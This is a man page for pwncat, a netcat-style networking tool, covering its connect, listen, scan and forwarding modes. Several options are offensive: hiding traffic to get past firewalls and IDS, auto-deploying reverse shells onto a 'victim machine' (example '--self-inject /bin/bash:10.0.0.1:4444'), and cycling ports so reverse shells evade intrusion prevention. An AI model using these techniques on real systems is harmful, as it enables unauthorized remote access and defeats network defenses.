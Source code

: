 .\" DO NOT MODIFY THIS FILE!  It was generated by help2man 1.47.16.
.TH PWNCAT: "1" "June 2021" "https://github.com/cytopia/pwncat" "User Commands"
.SH NAME
pwncat: \- pwncat
.SH DESCRIPTION
usage: pwncat [options] hostname port
.IP
pwncat [options] \fB\-l\fR [hostname] port
pwncat [options] \fB\-z\fR hostname port
pwncat [options] \fB\-L\fR [addr:]port hostname port
pwncat [options] \fB\-R\fR addr:port hostname port
pwncat \fB\-V\fR, \fB\-\-version\fR
pwncat \fB\-h\fR, \fB\-\-help\fR
.PP
Enhanced and comptaible Netcat implementation written in Python (2 and 3) with
connect, zero\-i/o, listen and forward modes and techniques to detect and evade
firewalls and intrusion detection/prevention systems.
.PP
If no mode arguments are specified, pwncat will run in connect mode and act as
a client to connect to a remote endpoint. If the connection to the remote
endoint is lost, pwncat will quit. See options for how to automatically reconnect.
.SS "positional arguments:"
.TP
hostname
Address to listen, forward, scan or connect to.
.TP
port
[All modes]
Single port to listen, forward or connect to.
[Zero\-I/O mode]
Specify multiple ports to scan:
Via list:  4444,4445,4446
Via range: 4444\-4446
Via incr:  4444+2
.SS "mode arguments:"
.TP
\fB\-l\fR, \fB\-\-listen\fR
[Listen mode]:
Start a server and listen for incoming connections.
If using TCP and a connected client disconnects or the
connection is interrupted otherwise, the server will
quit. See \fB\-k\fR/\-\-keep\-open to change this behaviour.
.TP
\fB\-z\fR, \fB\-\-zero\fR
[Zero\-I/0 mode]:
Connect to a remote endpoint and report status only.
Used for port scanning.
See \fB\-\-banner\fR for version detection.
.TP
\fB\-L\fR [addr:]port, \fB\-\-local\fR [addr:]port
[Local forward mode]:
This mode will start a server and a client internally.
The internal server will listen locally on specified
addr/port (given by \fB\-\-local\fR [addr:]port).
The server will then forward traffic to the internal
client which connects to another server specified by
hostname/port given via positional arguments.
(I.e.: proxies a remote service to a local address)
.TP
\fB\-R\fR addr:port, \fB\-\-remote\fR addr:port
[Remote forward mode]:
This mode will start two clients internally. One is
connecting to the target and one is connecting to
another pwncat/netcat server you have started somewhere. Once connected, it will then proxy traffic
between you and the target.
This mode should be applied on machines that block
incoming traffic and only allow outbound.
The connection to your listening server is given by
\fB\-R\fR/\-\-remote addr:port and the connection to the
target machine via the positional arguments.
.SS "optional arguments:"
.TP
\fB\-e\fR cmd, \fB\-\-exec\fR cmd
Execute shell command. Only for connect or listen mode.
.TP
\fB\-C\fR lf, \fB\-\-crlf\fR lf
Specify, 'lf', 'crlf' or 'cr' to always force replacing
line endings for input and outout accordingly. Specify
\&'no' to completely remove any line feeds. By default
it will not replace anything and takes what is entered
(usually CRLF on Windows, LF on Linux and some times
CR on MacOS).
.TP
\fB\-n\fR, \fB\-\-nodns\fR
Do not resolve DNS.
.TP
\fB\-\-send\-on\-eof\fR
Buffer data received on stdin until EOF and send
everything in one chunk.
.TP
\fB\-\-no\-shutdown\fR
Do not shutdown into half\-duplex mode.
If this option is passed, pwncat won't invoke shutdown
on a socket after seeing EOF on stdin. This is provided
for backward\-compatibility with OpenBSD netcat, which
exhibits this behavior.
.TP
\fB\-v\fR, \fB\-\-verbose\fR
Be verbose and print info to stderr. Use \fB\-v\fR, \fB\-vv\fR, \fB\-vvv\fR
or \fB\-vvvv\fR for more verbosity. The server performance will
decrease drastically if you use more than three times.
.TP
\fB\-\-info\fR type
Show additional info about sockets, IPv4/6 or TCP opts
applied to the current socket connection. Valid
parameter are 'sock', 'ipv4', 'ipv6', 'tcp' or 'all'.
Note, you must at least be in INFO verbose mode in order
to see them (\fB\-vv\fR).
.TP
\fB\-c\fR str, \fB\-\-color\fR str
Colored log output. Specify 'always', 'never' or 'auto'.
In 'auto' mode, color is displayed as long as the output
goes to a terminal. If it is piped into a file, color
will automatically be disabled. This mode also disables
color on Windows by default. (default: auto)
.TP
\fB\-\-safe\-word\fR str
All modes:
If pwncat is started with this argument, it will shut
down as soon as it receives the specified string. The
\fB\-\-keep\-open\fR (server) or \fB\-\-reconn\fR (client) options will
be ignored and it won't listen again or reconnect to you.
Use a very unique string to not have it shut down
accidentally by other input.
.SS "protocol arguments:"
.TP
\fB\-4\fR
Only Use IPv4 (default: IPv4 and IPv6 dualstack).
.TP
\fB\-6\fR
Only Use IPv6 (default: IPv4 and IPv6 dualstack).
.TP
\fB\-u\fR, \fB\-\-udp\fR
Use UDP for the connection instead of TCP.
.TP
\fB\-T\fR str, \fB\-\-tos\fR str
Specifies IP Type of Service (ToS) for the connection.
Valid values are the tokens 'mincost', 'lowcost',
\&'reliability', 'throughput' or 'lowdelay'.
.TP
\fB\-\-http\fR
Connect / Listen mode (TCP and UDP):
Hide traffic in http packets to fool Firewalls/IDS/IPS.
.TP
\fB\-\-https\fR
Connect / Listen mode (TCP and UDP):
Hide traffic in https packets to fool Firewalls/IDS/IPS.
.TP
\fB\-H\fR [str ...], \fB\-\-header\fR [str ...]
Add HTTP headers to your request when using \fB\-\-http\fR(s).
.SS "command & control arguments:"
.TP
\fB\-\-self\-inject\fR cmd:host:port[s]
Listen mode (TCP only):
If you are about to inject a reverse shell onto the
victim machine (via php, bash, nc, ncat or similar),
start your listening server with this argument.
This will then (as soon as the reverse shell connects)
automatically deploy and background\-run an unbreakable
pwncat reverse shell onto the victim machine which then
also connects back to you with specified arguments.
Example: '\-\-self\-inject /bin/bash:10.0.0.1:4444'
It is also possible to launch multiple reverse shells by
specifying multiple ports.
Via list:  \fB\-\-self\-inject\fR /bin/sh:10.0.0.1:4444,4445,4446
Via range: \fB\-\-self\-inject\fR /bin/sh:10.0.0.1:4444\-4446
Via incr:  \fB\-\-self\-inject\fR /bin/sh:10.0.0.1:4444+2
Note: this is currently an experimental feature and does
not work on Windows remote hosts yet.
.SS "pwncat scripting engine:"
.TP
\fB\-\-script\-send\fR file
All modes (TCP and UDP):
A Python scripting engine to define your own custom
transformer function which will be executed before
sending data to a remote endpoint. Your file must
contain the exact following function which will:
be applied as the transformer:
def transform(data, pse):
.TP
# NOTE: the function name must be 'transform'
# NOTE: the function param name must be 'data'
# NOTE: indentation must be 4 spaces
# ... your transformations goes here
return data
.TP
You can also define as many custom functions or classes
within this file, but ensure to prefix them uniquely to
not collide with pwncat's function or classes, as the
file will be called with exec().
.TP
\fB\-\-script\-recv\fR file
All modes (TCP and UDP):
A Python scripting engine to define your own custom
transformer function which will be executed after
receiving data from a remote endpoint. Your file must
contain the exact following function which will:
be applied as the transformer:
def transform(data, pse):
.TP
# NOTE: the function name must be 'transform'
# NOTE: the function param name must be 'data'
# NOTE: indentation must be 4 spaces
# ... your transformations goes here
return data
.TP
You can also define as many custom functions or classes
within this file, but ensure to prefix them uniquely to
not collide with pwncat's function or classes, as the
file will be called with exec().
.SS "zero-i/o mode arguments:"
.TP
\fB\-\-banner\fR
Zero\-I/O (TCP and UDP):
Try banner grabbing during port scan.
.SS "listen mode arguments:"
.TP
\fB\-k\fR, \fB\-\-keep\-open\fR
Listen mode (TCP only):
Re\-accept new clients in listen mode after a client has
disconnected or the connection is interrupted otherwise.
(default: server will quit after connection is gone)
.TP
\fB\-\-rebind\fR [x]
Listen mode (TCP and UDP):
If the server is unable to bind, it will re\-initialize
itself x many times before giving up. Omit the
quantifier to rebind endlessly or specify a positive
integer for how many times to rebind before giving up.
See \fB\-\-rebind\-robin\fR for an interesting use\-case.
(default: fail after first unsuccessful try).
.TP
\fB\-\-rebind\-wait\fR s
Listen mode (TCP and UDP):
Wait x seconds between re\-initialization. (default: 1)
.TP
\fB\-\-rebind\-robin\fR port
Listen mode (TCP and UDP):
If the server is unable to initialize (e.g: cannot bind
and \fB\-\-rebind\fR is specified, it it will shuffle ports in
round\-robin mode to bind to.
Use comma separated string such as '80,81,82,83', a range
of ports '80\-83' or an increment '80+3'.
Set \fB\-\-rebind\fR to at least the number of ports to probe +1
This option requires \fB\-\-rebind\fR to be specified.
.SS "connect mode arguments:"
.TP
\fB\-\-source\-addr\fR addr
Specify source bind IP address for connect mode.
.TP
\fB\-\-source\-port\fR port
Specify source bind port for connect mode.
.TP
\fB\-\-reconn\fR [x]
Connect mode (TCP and UDP):
If the remote server is not reachable or the connection
is interrupted, the client will connect again x many
times before giving up. Omit the quantifier to retry
endlessly or specify a positive integer for how many
times to retry before giving up.
(default: quit if the remote is not available or the
connection was interrupted)
This might be handy for stable TCP reverse shells ;\-)
Note on UDP:
By default UDP does not know if it is connected, so
it will stop at the first port and assume it has a
connection. Consider using \fB\-\-udp\-sconnect\fR with this
option to make UDP aware of a successful connection.
.TP
\fB\-\-reconn\-wait\fR s
Connect mode (TCP and UDP):
Wait x seconds between re\-connects. (default: 1)
.TP
\fB\-\-reconn\-robin\fR port
Connect mode (TCP and UDP):
If the remote server is not reachable or the connection
is interrupted and \fB\-\-reconn\fR is specified, the client
will shuffle ports in round\-robin mode to connect to.
Use comma separated string such as '80,81,82,83', a range
of ports '80\-83' or an increment '80+3'.
Set \fB\-\-reconn\fR to at least the number of ports to probe +1
This helps reverse shell to evade intrusiona prevention
systems that will cut your connection and block the
outbound port.
This is also useful in Connect or Zero\-I/O mode to
figure out what outbound ports are allowed.
.TP
\fB\-\-ping\-init\fR
Connect mode (TCP and UDP):
UDP is a stateless protocol unlike TCP, so no handshake communication takes place and the client just
sends data to a server without being "accepted" by
the server first.
This means a server waiting for an UDP client to
connect to, is unable to send any data to the client,
before the client hasn't send data first. The server
simply doesn't know the IP address before an initial
connect.
The \fB\-\-ping\-init\fR option instructs the client to send one
single initial ping packet to the server, so that it is
able to talk to the client.
This is a way to make a UDP reverse shell work.
See \fB\-\-ping\-word\fR for what char/string to send as initial
ping packet (default: '\e0')
.TP
\fB\-\-ping\-intvl\fR s
Connect mode (TCP and UDP):
Instruct the client to send ping intervalls every s sec.
This allows you to restart your UDP server and just wait
for the client to report back in. This might be handy
for stable UDP reverse shells ;\-)
See \fB\-\-ping\-word\fR for what char/string to send as initial
ping packet (default: '\e0')
.TP
\fB\-\-ping\-word\fR str
Connect mode (TCP and UDP):
Change the default character '\e0' to use for upd ping.
Single character or strings are supported.
.TP
\fB\-\-ping\-robin\fR port
Connect mode (TCP and UDP):
Instruct the client to shuffle the specified ports in
round\-robin mode for a remote server to ping.
This might be handy to scan outbound allowed ports.
Use comma separated string such as '80,81,82,83', a range
of ports '80\-83' or an increment '80+3'.
Use \fB\-\-ping\-intvl\fR 0 to be faster.
.TP
\fB\-\-udp\-sconnect\fR
Connect mode (UDP only):
Emulating stateful behaviour for UDP connect phase by
sending an initial packet to the server to validate if
it is actually connected.
By default, UDP will simply issue a connect and is not
aware if it is really connected or not.
The default connect packet to be send is '\e0', you
can change this with \fB\-\-udp\-sconnect\-word\fR.
.TP
\fB\-\-udp\-sconnect\-word\fR [str]
Connect mode (UDP only):
Change the the data to be send for UDP stateful connect
behaviour. Note you can also omit the string to send an
empty packet (EOF), but be aware that some servers such
as netcat will instantly quit upon receive of an EOF
packet.
The default is to send a null byte sting: '\e0'.
.SS "misc arguments:"
.TP
\fB\-h\fR, \fB\-\-help\fR
Show this help message and exit
.TP
\fB\-V\fR, \fB\-\-version\fR
Show version information and exit
